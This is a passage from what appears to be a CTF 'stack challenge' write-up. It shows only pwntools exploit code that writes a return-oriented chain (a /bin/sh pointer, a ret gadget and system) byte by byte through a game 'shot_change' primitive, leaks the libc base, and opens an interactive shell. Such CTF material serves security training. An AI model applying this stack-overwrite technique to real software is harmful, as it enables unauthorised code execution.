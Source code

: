 ```python
for i in range(7):
    shot_change(ret_offset+8+i,9,max_power,max_ange,p8((binsh>>(8*(i+1)))&0xff))
shot_change(ret_offset+8+7,9,max_power,max_ange,p8(ret&0xff))
for i in range(7):
    shot_change(ret_offset+0x10+i,9,max_power,max_ange,p8((ret>>(8*(i+1)))&0xff))
shot_change(ret_offset+0x10+7,9,max_power,max_ange,p8(sys&0xff))
for i in range(7):
    shot_change(ret_offset+0x18+i,9,max_power,max_ange,p8((sys>>(8*(i+1)))&0xff))
shot_change(ret_offset+0x18+7,9,max_power,max_ange,p8(1))
shot_change(miss_offset,9,max_power,max_ange)
shot_change(0,1,max_power,max_ange)
shot_change(0,1,max_power,max_ange)
lg("libc_base")
pr("libc_base")
#mydbg()
shot_change(0,1,max_power,max_ange)
p.interactive()
```



---

> 作者: chuwei  
> URL: https://chuw3i.github.io/posts/stack-challenge/  

